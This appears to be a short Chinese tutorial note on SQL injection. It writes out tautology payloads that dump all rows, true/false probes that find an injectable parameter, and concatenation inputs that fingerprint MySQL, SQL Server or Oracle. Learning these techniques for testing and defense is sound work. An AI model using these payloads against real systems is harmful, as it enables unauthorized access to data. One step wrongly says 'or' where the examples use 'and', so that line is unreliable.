[TOC]

# 注入点
1. **永真式查询条件**

- 参数：`xx' or '1'='1`
`select * from test.test where id = 'xx' or '1'='1';`

- 结果：闭合单引号后，拼接`or '1' = '1'`条件，使得查询条件的每条结果都返回为真，本应该根据查询条件过滤查询结果，注入后可查询所有结果。

2. **永真与永假查询条件判断注入点**
- 参数：
```
xx' and '1'='2
select * from test.test where id = 'xx' and '1'='2';

xx' and '1' = '1
select * from test.test where id = 'xx' and '1'='1';
```
- 结果：`'1'='1'`为永真式，`'1'='2'`为永假式，利用这两个注入式，**可以判断当前位置是否存在注入点**，以便后续拼接注入更加复杂的sql语句。如果出现以下情况，则表示该位置的参数存在注入点，然后可以尝试构造更复杂的注入语句进行爆库。
  - 在后拼接`and 永真式`，与不拼接的参数返回相同结果；即`select * from test.test where id = 'xx'`与`select * from test.test where id = 'xx' and '1'='1'`返回结果相同。
  - 在后拼接`or 永假式`，与不拼接的参数返回不同结果，一般为空。


3. **返回结果判断数据库类型**
- 参数：
```
原始sql：
select * from test.test where id = 'xxxx'

xx' 'xx
select * from test.test where id = 'xx' 'xx'
xx'+'xx
select * from test.test where id = 'xx'+'xx'
xx'||'xx
select * from test.test where id = 'xx'||'xx'
```

- 结果：可以使用这种注入方式判断数据库类型，如果注入语句与原始sql语句返回相同结果，则可以判断服务端数据库类型
```
mysql: `xx' 'xx`
sqlServer：`xx'+'xx`
oracle：`xx'||'xx`
```




